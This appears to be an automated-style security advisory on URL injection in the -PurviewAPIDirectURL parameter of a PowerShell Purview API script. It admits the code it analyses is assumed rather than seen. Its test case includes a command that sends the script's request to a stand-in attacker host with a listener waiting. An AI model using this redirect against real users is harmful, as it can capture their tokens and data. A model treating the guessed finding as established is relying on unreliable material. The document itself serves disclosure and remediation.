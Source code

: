 #### 1. Vulnerability Name: URL Injection in `-PurviewAPIDirectURL` parameter

- **Description:**
    1. The PowerShell script `Purview-API-PowerShell.ps1` (based on documentation and usage examples in README.md) in Batch mode allows users to specify the target Azure Purview API endpoint using the `-PurviewAPIDirectURL` parameter.
    2. The script is intended to interact with Azure Purview REST APIs, but if the provided URL is not properly validated or sanitized, an attacker can inject a malicious URL.
    3. When the script processes the `-PurviewAPIDirectURL` parameter, it uses it to construct the API request without sufficient security checks.
    4. This allows an attacker to redirect the API request to an unintended destination, potentially an attacker-controlled server, or to manipulate the parameters of the API request itself.
    5. By controlling the URL, an attacker could potentially exfiltrate sensitive information, bypass security measures, or possibly perform unauthorized actions depending on the script's functionality and the attacker's crafted URL.

- **Impact:**
    - **Information Disclosure:** An attacker could redirect API requests to their own server and potentially capture sensitive information intended for the Azure Purview API. This could include API keys, tokens, or data being sent in the API request.
    - **Redirection to Malicious Site:** Users might unknowingly interact with a malicious site disguised as the Purview API endpoint, potentially leading to phishing attacks or further compromise.
    - **Bypass Security Controls:** By manipulating the URL, an attacker might be able to bypass intended access controls or security checks implemented on the legitimate Purview API endpoint if the script relies solely on the provided URL.
    - **Potential Unauthorized Actions:** In more advanced scenarios, if the attacker can manipulate API parameters through URL injection and the script improperly handles responses or actions based on the URL, it might be possible to trigger unintended actions within the Purview account, depending on the permissions of the script's execution context.

- **Vulnerability Rank:** Medium

- **Currently Implemented Mitigations:**
    - None. Based on the provided files (specifically the README.md and absence of code), there is no evidence of URL validation or sanitization implemented in the script for the `-PurviewAPIDirectURL` parameter. The documentation encourages users to refer to official Purview API documentation, but this is not a technical mitigation within the script itself.

- **Missing Mitigations:**
    - **URL Validation:** Implement robust URL validation to ensure that the `-PurviewAPIDirectURL` parameter points to a legitimate Azure Purview API endpoint. This should include:
        - **Hostname validation:** Verify that the hostname belongs to the expected Azure Purview domain (e.g., `*.purview.azure.com`).
        - **Protocol validation:** Enforce the use of HTTPS protocol to ensure encrypted communication.
        - **Path validation:** If possible, validate the expected path structure of the Purview API endpoint.
    - **URL Sanitization:** Sanitize the URL to encode or remove any potentially harmful characters or parameters before using it in API requests. This can help prevent various injection attacks.
    - **Input Validation in General:** Implement input validation for all parameters accepted by the script to prevent other types of injection vulnerabilities.

- **Preconditions:**
    - The user must execute the `Purview-API-PowerShell.ps1` script in Batch mode.
    - The user must use the `-APIDirect` and `-PurviewAPIDirectURL` parameters to directly specify the API endpoint.
    - An attacker needs to be able to influence the value of the `-PurviewAPIDirectURL` parameter provided to the script. This could be achieved through social engineering, tricking a user into running the script with a malicious URL, or by compromising a system where the script is executed and modifying script parameters or configuration.

- **Source Code Analysis:**
    - **Assumed vulnerable code structure in `Purview-API-PowerShell.ps1` (based on README usage examples):**
    ```powershell
    param (
        [string]$PurviewAccountName,
        [switch]$APIDirect,
        [string]$PurviewAPIDirectURL,
        [string]$HTTPMethod,
        [string]$InputFile,
        [string]$OutputFile
    )

    if ($APIDirect) {
        # Vulnerable code: Directly using user-provided URL without validation
        $apiUrl = $PurviewAPIDirectURL

        # ... construct request and invoke API using $apiUrl ...
        # Example of potentially vulnerable invocation:
        # Invoke-WebRequest -Uri $apiUrl -Method $HTTPMethod -Body ...
    } # ... (rest of the script)
    ```
    - **Vulnerability Explanation:**
        - The script takes the `-PurviewAPIDirectURL` parameter as input without any validation or sanitization when the `-APIDirect` switch is used.
        - The value of `$PurviewAPIDirectURL` is directly assigned to `$apiUrl`, which is then used in `Invoke-WebRequest` (or a similar command) to make the API call.
        - If an attacker provides a malicious URL as the value for `-PurviewAPIDirectURL`, the `Invoke-WebRequest` command will attempt to make a request to this attacker-controlled URL.
        - This direct usage of user-provided URL without validation is the root cause of the URL Injection vulnerability.
    - **Visualization:**
        ```
        User Input (-PurviewAPIDirectURL) --> [Purview-API-PowerShell.ps1] --> $PurviewAPIDirectURL (No Validation) --> $apiUrl --> Invoke-WebRequest -Uri $apiUrl --> HTTP Request to potentially malicious URL
        ```

- **Security Test Case:**
    1. **Prerequisites:**
        - Access to a system where you can execute the `Purview-API-PowerShell.ps1` script.
        - Set up a simple HTTP listener (e.g., using `netcat` or Python's `http.server`) on your attacker-controlled machine to capture incoming HTTP requests. For example, using Python: `python3 -m http.server 8080`
        - Note the IP address or hostname of your attacker machine (e.g., `attacker.example.com` or `192.168.1.100`).
    2. **Execution:**
        - Open PowerShell and navigate to the directory containing `Purview-API-PowerShell.ps1`.
        - Execute the script with a crafted `-PurviewAPIDirectURL` pointing to your attacker-controlled HTTP listener:
            ```powershell
            Purview-API-PowerShell.ps1 -APIDirect -HTTPMethod GET -PurviewAPIDirectURL "http://attacker.example.com:8080/malicious/path?attack=url_injection"
            ```
            Replace `attacker.example.com:8080` with the actual address of your HTTP listener.
        - Observe the script execution. It might output errors if it expects a specific response from the Purview API, but this is not relevant to confirming the URL injection.
    3. **Verification:**
        - Check the logs of your HTTP listener on your attacker machine.
        - You should observe a GET request received by your HTTP listener. The request should have the path and parameters you injected in the `-PurviewAPIDirectURL`: `/malicious/path?attack=url_injection`.
        - The presence of this request in your attacker's HTTP listener logs confirms that the `Purview-API-PowerShell.ps1` script indeed used the attacker-provided URL to make an HTTP request, demonstrating the URL Injection vulnerability.